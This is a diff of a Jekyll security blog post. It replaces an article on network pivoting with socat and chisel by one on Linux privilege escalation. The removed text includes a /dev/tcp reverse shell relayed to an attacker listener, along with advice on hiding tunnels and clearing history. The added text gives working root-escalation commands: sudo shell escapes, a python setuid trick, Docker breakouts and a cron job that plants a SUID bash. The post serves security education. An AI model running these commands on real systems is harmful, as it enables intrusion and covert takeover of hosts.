

Before and after one commit to 7anfu/7anfu.github.io, a Jekyll site: the page built from _blog/2025-11-18-linux-privesc.md, in a window 1280 px wide and 1400 px high, scrolled down 370 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-11-18-linux-privesc.md

````diff
--- a/_blog/2025-11-18-linux-privesc.md
+++ b/_blog/2025-11-18-linux-privesc.md
@@ -1,205 +1,271 @@
 ---
 layout: post
-title: "Network Pivoting: Routing Your Access Through Compromised Hosts"
-category: "Network Security"
-date: 2025-11-20
-readTime: "14 min"
-tags: [pivoting, socat, chisel, tunneling, post-exploitation, lateral-movement]
-excerpt: "When your initial compromise sits in a DMZ, the real network is behind it. We explore how attackers bypass network segmentation through pivoting techniques."
+title: "Linux Privilege Escalation: From Low-Privileged User to Root"
+category: "Post-Exploitation"
+date: 2025-11-18
+readTime: "16 min"
+tags: [linux, privilege-escalation, kernel, docker, capabilities, suid, privesc]
+excerpt: "After gaining initial access to a Linux system with limited privileges, the path to root demands systematic enumeration and exploitation of misconfigurations."
 ---
 
-# Network Pivoting: Routing Your Access Through Compromised Hosts
+# Linux Privilege Escalation: From Low-Privileged User to Root
 
-## The Segmentation Problem
+## The Privilege Model
 
-Modern networks don't exist as flat, homogeneous landscapes. Instead, they're compartmentalized. Your initial foothold lands in a DMZ or perimeter subnet, valuable for what it reveals, but ultimately not what you're after. The crown jewels sit deeper: domain controllers in internal VLANs, database servers in restricted zones, management interfaces behind additional firewalls.
+Linux's privilege model is binary at first glance but nuanced in practice. Root, the user with UID 0, possesses unrestricted access to the entire system. Every other user (UIDs typically 1000 or higher) operates within defined boundaries. A process running as `www-data` (the web server user) cannot read files owned by root with restrictive permissions. It cannot modify system configuration. It cannot directly execute commands as other users.
 
-This architectural reality creates a fundamental challenge for attackers and defenders alike. Once inside the perimeter, how do you traverse lateral network boundaries? The firewall that stopped your initial reconnaissance now works differently from the inside, but it still exists. Network segmentation isn't just an external defense, it's internal containment.
+Yet systems are rarely perfectly isolated. Misconfigurations, legacy permissions, and design choices create bridges between privilege levels. These bridges are what privilege escalation exploits.
 
-This is where pivoting becomes essential. Rather than attacking these internal networks directly (impossible from your external position), you use the compromised host as an intermediary. Every connection routes through the internal network via this gateway machine. The traffic is native to their network, so to their firewalls and IDS systems, it appears legitimate.
+The attacker's initial access typically lands at a constrained privilege level. A web vulnerability grants code execution as the web server user. An SSH brute-force success uses a weak user account. A local exploit reaches a low-privileged shell. From this position, root access seems distant. But systematic enumeration often reveals a path forward.
 
-## Understanding the Traffic Flow
+## Enumeration: The Foundation
 
-Before examining tools, let's establish what actually happens during a pivot. Consider a typical scenario:
+Before attempting any exploit, comprehensive enumeration is essential. You're searching for misconfigurations, leftover permissions, or outdated software. These are the artifacts of imperfect system administration.
 
-- Your Kali box is on `10.10.14.0/24` (external)
-- Compromised DMZ host is on `10.10.10.50` (perimeter subnet)
-- Internal network is `192.168.1.0/24` (restricted VLAN)
+Automated scripts accelerate this process. LinPEAS (Linux Privilege Escalation Awesome Script) examines system state comprehensively: installed software, file permissions, network listeners, scheduled tasks, and more. The script highlights findings with color coding. Red indicates likely escalation vectors.
 
-Without pivoting, when you attempt to connect to `192.168.1.100:80` from your Kali box, the firewall drops the traffic. The routing tables on your machine don't even know how to reach that network legitimately.
+However, automation misses context. You might see a SUID binary and not recognize its exploitation path. You might find a cron job and not understand its implications. The best approach combines automated enumeration with manual analysis.
 
-With pivoting, you establish a tunnel through the DMZ host. Now when you request `localhost:8080` on your machine, the traffic flows through: Kali to DMZ host to Internal host. The firewall sees internal-to-internal traffic, which it permits. The internal host responds through the same path.
+Key areas to examine:
 
-From the network's perspective, there's nothing unusual. A host on the DMZ is communicating with internal resources. This happens constantly in legitimate environments.
+**Sudo permissions**: The `sudo -l` command reveals which commands your user can execute as root (or other users) without providing a password. A single misconfigured line can be a complete escalation path.
 
-## SOCAT: The Foundational Approach
+**SUID binaries**: Files with the setuid bit execute with the owner's privileges, typically root. If a SUID binary contains a vulnerability, exploiting it grants root access.
 
-SOCAT is fundamentally a bidirectional data relay. It connects two endpoints and shuffles bytes between them. Its power lies in its flexibility. These endpoints can be TCP sockets, Unix sockets, files, processes, or even SSL/TLS connections.
+**File permissions**: Writable files in critical locations (like `/etc/shadow` or `/etc/cron.d/`) can be modified to create escalation paths.
 
-### Basic Port Forwarding
+**Kernel version**: Older kernels contain public exploits. Determining the exact version is the first step toward kernel exploitation.
 
-The simplest pivot is a port forward. You listen on a high-numbered port on the compromised host and tunnel connections back to an internal service.
+**Running services**: Services executing with elevated privileges might be exploitable if they contain vulnerabilities.
+
+## Sudo Misconfigurations
+
+The `sudo` command permits users to execute commands with elevated privileges, typically root. When configured correctly, it's secure. When misconfigured, it's one of the most direct escalation paths.
+
+### NOPASSWD Bypass
+
+The most obvious misconfiguration allows commands via sudo without a password:
+
+```
+user ALL=(ALL) NOPASSWD: /usr/bin/find
+```
+
+This line permits the user to run `find` as root without authentication. The attacker then leverages `find`'s capabilities to execute arbitrary commands:
 
 ```bash
-socat TCP-LISTEN:8080,fork TCP:192.168.1.100:80
+sudo find . -exec /bin/sh \; -quit
 ```
 
-This command tells SOCAT: listen on TCP port 8080, and when connections arrive, fork a new process for each one, then connect to the internal web server at 192.168.1.100:80. The `fork` keyword is critical. Without it, only one client could connect before SOCAT closed.
+The `-exec` option runs commands on found files. `/bin/sh` spawns a shell. The semicolon is a find syntax requirement, `-quit` exits after the first result. The result is a root shell.
 
-The operator now points their browser to `dmz-ip:8080` and receives pages from the internal server. The internal firewall sees the DMZ host initiating connections (permitted) and responding to them (expected). There's no indication of external involvement.
+GTFOBins, an online database of Unix binaries and their exploitation methods, contains exploitation techniques for hundreds of common utilities. Many common commands (vim, less, python, perl, etc.) have built-in functionality that can execute arbitrary code. When these are available via sudo NOPASSWD, privilege escalation is trivial.
 
-### Reverse Shell Relaying
+### Wildcard Injection
 
-This becomes more complex when you need to chain compromises. Suppose you've gained a shell on Host A (the DMZ), but your actual target is Host B, which can only be reached from A.
+Some administrators attempt to restrict sudo access by permitting only specific arguments:
 
-Traditional reverse shell: you catch a reverse shell from Host B on your Kali box, but Host B can't reach Kali directly. This fails at the network boundary.
+```
+user ALL=(ALL) NOPASSWD: /usr/bin/tar
+```
 
-With SOCAT on Host A:
+But they fail to consider argument injection. The attacker crafts arguments that change the tool's behavior:
 
 ```bash
-# On your Kali
-nc -lvnp 4444
-
-# On Host A (pivot)
-socat TCP-LISTEN:5555,fork TCP:kali-ip:4444
-
-# On Host B (target)
-bash -i >& /dev/tcp/host-a-ip/5555 0>&1
+sudo tar xf /dev/null --to-command '/bin/sh'
 ```
 
-Host B connects to Host A on port 5555. SOCAT relays this connection to your Kali listener. The reverse shell arrives at your listener, authenticated through the trusted intermediary. Host B sees it as connecting to Host A. Host A sees it as connecting outbound (which, from an internal perspective, might be permitted by policy). Your Kali sees an inbound connection from Host A.
+Here, `--to-command` isn't restricted. Tar extracts files and pipes them to a command. That command is a shell, and it runs as root.
 
-### Encryption Considerations
+### Sudo Version Exploits
 
-As sophistication increases, so does defensive monitoring. A network defender running IDS/IPS systems can fingerprint clear-text protocols. SSH, RDP, and HTTP traffic have distinctive patterns. Encrypted traffic is harder to categorize.
+Older sudo versions contain security vulnerabilities. CVE-2021-3156, known as "Baron Samedit," affects sudo versions before 1.9.5p2. It's a heap-based buffer overflow in the argument parsing code. Exploitation is reliable and grants root access on vulnerable systems.
 
-SOCAT supports SSL/TLS wrapping. This doesn't hide the traffic (defenders still see network flows), but it obscures the content from DPI (Deep Packet Inspection) systems.
+Checking the sudo version is straightforward:
 
 ```bash
-# Generate self-signed certificate
-openssl req -newkey rsa:2048 -nodes -keyout pivot.key -x509 -days 365 -out pivot.crt
-cat pivot.key pivot.crt > pivot.pem
-
-# On the DMZ host
-socat OPENSSL-LISTEN:443,cert=pivot.pem,verify=0,fork TCP:192.168.1.100:3389
-
-# On your Kali (if you want to access it)
-socat TCP-LISTEN:13389 OPENSSL:dmz-ip:443,verify=0
+sudo --version
 ```
 
-Now RDP traffic to the internal server flows through an SSL tunnel. From the network's perspective, it's encrypted HTTPS-like traffic. An IDS can flag it as suspicious (why is a DMZ host conducting SSL to internal resources?), but the actual RDP protocol details are hidden.
+If the version is vulnerable and matches your target environment, public exploits are available and typically reliable.
 
-## Chisel: Modern HTTP-Based Tunneling
+## SUID Binaries: Dangerous Permissions
 
-SOCAT is powerful but somewhat dated in its approach. Chisel represents a different design philosophy: assume restrictive firewall policies and design around them.
+SUID (Set User ID) binaries run with the privileges of their owner, regardless of who executes them. If a binary is owned by root and has the SUID bit set, executing it grants temporary root privileges.
 
-Many corporate networks permit HTTP and HTTPS outbound traffic. These are fundamental to business operations. An IDS might scrutinize these connections, but blocking them entirely isn't feasible. Chisel exploits this reality by tunneling over HTTP, encrypted via SSH.
-
-### Architecture
-
-Chisel operates on a client-server model. The server runs on your attacking machine (or an intermediate relay). The client runs on the compromised host. They establish an SSH connection over HTTP, which then carries tunnel traffic.
-
-### Reverse Port Forwarding
-
-The most common deployment mirrors SOCAT's port forward but with better encryption.
+Locating SUID binaries:
 
 ```bash
-# On your Kali (server)
-./chisel server --reverse --port 8000
-
-# On compromised host (client)
-./chisel client kali-ip:8000 R:8080:192.168.1.100:80
+find / -perm -4000 -type f 2>/dev/null
 ```
 
-The `--reverse` flag is significant. Normally, the server listens and accepts connections. Here, the client connects to the server and establishes a reverse tunnel. The listening port (`8080`) appears on your Kali machine.
+The `-perm -4000` matches files with the setuid bit. This search often reveals dozens of binaries. Most are legitimate system tools that require elevated privileges (like `passwd`, which modifies the password database).
 
-This offers advantages over SOCAT:
+However, some are unusual. Custom scripts compiled locally, utilities in non-standard locations, or outdated versions of common tools might contain vulnerabilities or design flaws.
 
-- Built-in SSH encryption (SOCAT requires manual SSL setup)
-- Cross-platform compatibility (single binary works on Linux, Windows, macOS)
-- Written in Go, so it's performant
-- The client initiates the connection, which can traverse proxies and NAT
+### Exploiting Vulnerable SUID Binaries
 
-### SOCKS Proxy: The Comprehensive Solution
+A vulnerable SUID binary might:
 
-Rather than forwarding individual ports, Chisel can establish a SOCKS proxy. This is more versatile. Any tool configured to use a SOCKS proxy can tunnel through the compromised host.
+**Path traversal**: Accept file paths as arguments and operate on files outside intended directories. By manipulating these paths, an attacker reads or writes files as root.
+
+**String format vulnerabilities**: Accept format strings in arguments. Format string bugs allow reading and writing arbitrary memory.
+
+**Command injection**: Execute user-supplied input via shell commands without proper sanitization. Injecting shell metacharacters executes arbitrary code.
+
+**Buffer overflows**: Classic memory safety vulnerabilities. Supplying oversized inputs corrupts memory and hijacks execution flow.
+
+Each type requires different exploitation techniques. The common thread: the SUID privilege elevation is the mechanism, the vulnerability is the method.
+
+## Linux Capabilities: Fine-Grained Privileges
+
+Linux capabilities divide the privileges traditionally granted to root into distinct, independently grantable units. Rather than conferring "all root powers" to a process, administrators assign specific capabilities: `CAP_SETUID` (can change UID), `CAP_DAC_READ_SEARCH` (bypass file read permissions), etc.
+
+This architecture theoretically improves security. A web server process doesn't need every root privilege, it needs specific capabilities related to network binding and file access.
+
+In practice, misconfigurations grant dangerous capabilities to unnecessary binaries.
+
+Finding capabilities:
 
 ```bash
-# On your Kali (server)
-./chisel server --reverse --port 8000
-
-# On compromised host (client)
-./chisel client kali-ip:8000 R:socks
+getcap -r / 2>/dev/null
 ```
 
-Chisel listens on port 1080 on your local machine. Any traffic sent to this port travels through the compromised host and onward to the destination.
+This recursively checks every file for capabilities. A result like:
 
-Now you can use proxychains to route any command through this tunnel:
+```
+/usr/bin/python3 = cap_setuid+ep
+```
+
+Indicates that python3 has the `setuid` capability. An attacker can invoke Python and use it to change the process UID to 0 (root):
+
+```python
+import os
+os.setuid(0)
+os.system('/bin/bash')
+```
+
+The result is a root shell. Python is legitimate software for system administration, but assigning it this capability is dangerous and not unprecedented in misconfigured environments.
+
+Other dangerous capabilities:
+
+- `CAP_DAC_READ_SEARCH`: Bypass file read permissions, accessing `/etc/shadow` or private keys
+- `CAP_DAC_OVERRIDE`: Bypass file write permissions, modifying configuration files
+- `CAP_NET_ADMIN`: Configure network interfaces, intercept traffic, or inject packets
+- `CAP_SYS_ADMIN`: Perform miscellaneous administrative functions, often a catch-all for dangerous operations
+
+## Kernel Exploits: The Nuclear Option
+
+Kernel vulnerabilities are the most powerful but also the most dangerous privilege escalation vector. A successful kernel exploit typically grants immediate root access. However, kernel exploits are unstable. Failed exploitation can crash the system.
+
+The first step is determining the exact kernel version:
 
 ```bash
-# Edit /etc/proxychains4.conf
-[ProxyList]
-socks5 127.0.0.1 1080
-
-# Use it
-proxychains nmap -sT -Pn 192.168.1.0/24
-proxychains smbclient -L //192.168.1.10
-proxychains evil-winrm -i 192.168.1.10 -u admin -p password
+uname -a
+cat /proc/version
 ```
 
-Every network tool now operates as if you're on the internal network. This is more versatile than individual port forwards. You don't need to predict which services you'll target, you can enumerate the network dynamically.
-
-## Chaining Multiple Pivots
-
-As you progress deeper into a network, you might encounter additional segmentation. Your first compromise reaches a DMZ. Behind that DMZ is a management VLAN. Behind that is the production network. Each boundary requires an additional pivot.
-
-This is theoretically straightforward: the second pivot relays through the first, the third through the second, and so on. In practice, complexity emerges.
+Then searching for public exploits:
 
 ```bash
-# On Kali
-./chisel server --reverse --port 8000
-
-# On First Pivot (DMZ host)
-./chisel client kali-ip:8000 R:socks &
-./chisel server --port 9000 --reverse
-
-# On Second Pivot (Management VLAN host)
-./chisel client first-pivot-ip:9000 R:9001:third-network-host:80
+searchsploit "Linux kernel 5.4"
 ```
 
-You've created a relay chain. Kali connects to the first pivot, establishing a SOCKS proxy. The first pivot connects to the second, forwarding port 9001. Now `localhost:9001` on your Kali reaches deep into the third network.
+Several well-known kernel exploits have become classics:
 
-The practical limit is usually latency and debugging difficulty, not technical capability. Each hop adds latency. If your attack fails, determining where in the chain the problem exists becomes challenging.
+**Dirty COW (CVE-2016-5195)**: A race condition in the copy-on-write mechanism of the Linux kernel. By carefully timing reads and writes to the same memory page, an attacker can make the kernel overwrite normally read-only memory. This allows modifying SUID binaries or system libraries, granting root access. Affected kernels: 2.6.22 through 4.8.2 (and various stable branches).
 
-## Operational Security Considerations
+**Dirty Pipe (CVE-2022-0847)**: A vulnerability in the pipe buffer mechanism allowing writes to read-only files. Similar in impact to Dirty COW but with a simpler exploitation path.
 
-These techniques work, but they generate evidence. Network defenders analyze traffic patterns, study unusual connections, and review logs.
+**PwnKit (CVE-2021-4034)**: A vulnerability in the polkit authentication mechanism, affecting systems with older versions. Requires the specific vulnerable version but is highly reliable when applicable.
 
-When tunneling, consider:
+Kernel exploits are situation-dependent. They only work on specific kernel versions. Attempting an exploit on a non-vulnerable kernel wastes time or, if you're unlucky, crashes the system.
 
-- **Port selection**: Avoid high-numbered ports on well-known services. Port 8080 on a DMZ host is suspicious if that host never typically services web traffic.
-- **Volume**: Tunneling large amounts of data (like a full network scan) creates distinctive patterns. Attackers often conduct reconnaissance in smaller batches, spread over time.
-- **Process artifacts**: The chisel or socat binary itself might trigger endpoint detection. Renaming or obfuscating binaries is common practice.
-- **Cleanup**: Removing evidence of tunnels (deleting binaries, clearing command history) is part of the engagement.
+## Docker Breakout: Container Escape
 
-## When to Use Each Tool
+Some Linux systems are virtualized, actually running inside Docker containers. While containers provide isolation, they're not true VMs. A container with certain configurations can break out to the host.
 
-**SOCAT** is appropriate when:
-- You need Unix socket manipulation
-- You're already on the target and need quick forwarding
-- SSL/TLS encryption isn't critical
-- The target has limited disk space (SOCAT is smaller)
+First, detect the container environment:
 
-**Chisel** is appropriate when:
-- You need a persistent, encrypted tunnel
-- The environment has restrictive outbound policies (HTTP/HTTPS allowed)
-- You want cross-platform compatibility
-- You need to tunnel multiple services simultaneously
+```bash
+ls -la /.dockerenv
+cat /proc/1/cgroup | grep docker
+```
 
-In practice, many engagements use both. SOCAT for initial quick pivots, Chisel for establishing persistent tunnel infrastructure.
+If these reveal you're in a container, and if the container is privileged:
+
+```bash
+# Test if privileged
+ip link add dummy0 type dummy
+```
+
+If this succeeds, you're in a privileged container. The next step is straightforward:
+
+```bash
+mkdir /mnt/host
+mount /dev/sda1 /mnt/host
+chroot /mnt/host /bin/bash
+```
+
+You've mounted the host filesystem and changed root to it. Now you're running as root on the host.
+
+Alternatively, if the Docker socket (`/var/run/docker.sock`) is mounted:
+
+```bash
+docker run -v /:/mnt --rm -it alpine chroot /mnt sh
+```
+
+This creates a new container with the host filesystem mounted and enters a root shell within it.
+
+## Cron Jobs and Scheduled Tasks
+
+Cron executes commands on a schedule. If a cron job runs a script as root, and that script is world-writable, modifying it grants root code execution.
+
+Examining cron jobs:
+
+```bash
+cat /etc/crontab
+ls -la /etc/cron.d/
+ls -la /etc/cron.daily/
+```
+
+Look for scripts with permissive permissions:
+
+```bash
+ls -la /etc/cron.d/backup.sh
+# -rwxrwxrwx 1 root root 256 Nov 20 02:00 backup.sh
+```
+
+If writable by your user:
+
+```bash
+echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> /etc/cron.d/backup.sh
+```
+
+Wait for the cron job to execute (check the schedule in `/etc/crontab`), then:
+
+```bash
+/tmp/rootbash -p
+```
+
+The `-p` flag preserves the SUID privilege when spawning the shell.
+
+## Escalation Strategy
+
+Privilege escalation is rarely a single guaranteed path. Systems have multiple vectors, some more reliable than others. Effective enumeration identifies several possible approaches. The attacker selects the most reliable or quickest.
+
+A prioritized approach:
+
+1. **Sudo permissions** (fastest if available, NOPASSWD is immediate root)
+2. **SUID binaries** (common misconfiguration, exploitation varies)
+3. **File permissions** (if writable system files exist, modification is direct)
+4. **Cron jobs** (requires waiting for execution, but reliable)
+5. **Capabilities** (less common, but devastating if present)
+6. **Kernel exploits** (most reliable technically, but risky and time-consuming)
+
+Each step consumes time. Operators typically focus on the quickest viable path while documenting alternatives for later use.
 
 ## Conclusion
 
-Network pivoting bridges the gap between network segmentation and attacker objectives. By converting a compromised host into a relay, attackers access otherwise isolated networks. Defenders implement segmentation specifically to prevent this. The cat-and-mouse dynamic between pivoting techniques and defensive detection remains ongoing.
+Linux privilege escalation is less about exotic techniques and more about systematic enumeration and understanding system architecture. Misconfigurations are ubiquitous. File permissions, software versions, and administrative choices create security boundaries that privilege escalation exploits.
 
-Understanding these techniques is essential for both offensive security professionals and defenders building detection systems. The tools themselves are straightforward, the art lies in deployment: when to use them, how to conceal them, and how to chain them across multiple network boundaries.
+The methodical approach (enumerate, identify vectors, exploit the most reliable) consistently yields results. Tools like LinPEAS accelerate enumeration. Understanding the underlying system allows precise exploitation. Together, they transform a low-privileged shell into root access.
````
